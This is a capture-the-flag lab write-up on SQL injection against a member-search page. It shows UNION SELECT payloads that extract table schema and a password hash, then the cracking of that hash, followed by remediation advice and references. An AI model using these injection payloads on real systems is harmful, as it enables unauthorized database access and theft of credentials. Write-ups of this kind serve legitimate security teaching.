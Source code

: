 # SQL INJECTION

## VULNERABILITY

The member page, accessible at http://192.168.56.2/index.php?page=member, allows users to search for members by ID, providing access to valuable database information. During our investigation, we discovered the 5th member named "Get The Flag," which led us to investigate potential SQL injection vulnerabilities.

Format of SQL query:

```sql
SELECT column_name FROM table_name WHERE condition ORDER BY column_name
```

## EXPLOIT

Executing the simple query **1 OR 1=1** displayed a list of all users. To explore further, we used the following query to reveal details about tables and columns in the database.

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Focusing on the "users" keyword, we identified eight categories within the users table, which include 'user_id', 'first_name', 'last_name', 'town', 'country', 'planet', 'Commentaire' and 'countersign'.
The users table looks like this :

| ID  | First name | Surname     |
| --- | ---------- | ----------- |
| 1   | users      | user_id     |
| 2   | users      | first_name  |
| 3   | users      | last_name   |
| 4   | users      | town        |
| 5   | users      | country     |
| 6   | users      | planet      |
| 7   | users      | Commentaire |
| 8   | users      | countersign |

After several attempts, we used the query :

```sql
1 UNION SELECT countersign, Commentaire FROM users WHERE user_id=5
```

which provided the following information:

> First name: 5ff9d0165b4f92b14994e5c685cdce28
> Surname: Decrypt this password -> then lower all the characters. Apply SHA256, and it's good!

Using Crackstation, we deciphered the password "FortyTwo" (MD5 hash) and then hashed it with SHA256 to obtain the flag.

## INFOS

SQL injection is a malicious technique that enables an attacker to manipulate or interfere with the SQL queries executed by an application to its associated database. This vulnerability can have severe consequences, **granting unauthorized access to, and control over, the database**. An attacker exploiting SQL injection may gain the ability to **read, modify, or delete sensitive data stored in the database**. This could potentially include compromising users' personal information, accessing email addresses, and obtaining passwords. The impact of SQL injection extends beyond mere unauthorized data access, as it poses a substantial threat to the confidentiality, integrity, and availability of the entire database.

## PATCH

To reduce the risks associated with SQL injection attacks, consider implementing the following security measures:

    1. Input Validation and Parameterized Statements:
      - Validate and sanitize all user inputs on the server side.
      - Use parameterized statements (prepared statements) in SQL queries to separate user input from SQL code.

    2. Stored Procedures:
      - Utilize stored procedures to encapsulate and execute SQL queries. This adds an additional layer of security by limiting direct access to the database.

    3. Least Privilege Principle:
      - Ensure that database accounts used by your application have the least privilege necessary to perform their tasks. Avoid using accounts with unnecessary permissions.

    4. Whitelisting:
      - Implement input whitelisting, allowing only predefined, safe characters or patterns. This helps prevent the injection of malicious SQL code.

    5. ORMs and Parameterized Queries:
      - If using Object-Relational Mapping (ORM) frameworks, make sure they generate parameterized queries to prevent SQL injection vulnerabilities.

    6. Error Handling:
      - Implement proper error handling to avoid exposing sensitive information in error messages. Provide generic error messages to users and log detailed errors for administrators.

    7. Web Application Firewalls (WAFs):
      - Use Web Application Firewalls to filter and monitor HTTP traffic between a web application and the Internet. WAFs can help detect and prevent SQL injection attacks.

## SOURCES

https://portswigger.net/web-security/sql-injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
